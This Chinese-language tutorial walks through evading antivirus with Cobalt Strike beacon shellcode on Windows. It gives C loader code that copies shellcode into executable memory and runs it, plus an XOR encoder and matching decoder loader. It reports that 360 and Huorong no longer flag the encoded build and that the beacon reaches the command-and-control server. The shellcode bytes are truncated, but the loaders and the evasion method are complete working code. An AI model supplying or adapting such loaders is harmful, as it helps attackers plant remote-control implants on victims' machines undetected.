 # 0x00 shellcode测试
Cobalt Strike 4.2  
创建监听器beacon http  
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式，勾选x64）  
生成的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int main() {
    char* old= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目

直接在VS2019下编译会有类型匹配问题，进行强制类型转换的修改，能成功编译的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// length: 891 bytes
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";
int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

# 0x01 shellcode免杀
使用如下C代码，对shellcode进行简单加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );
    }
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
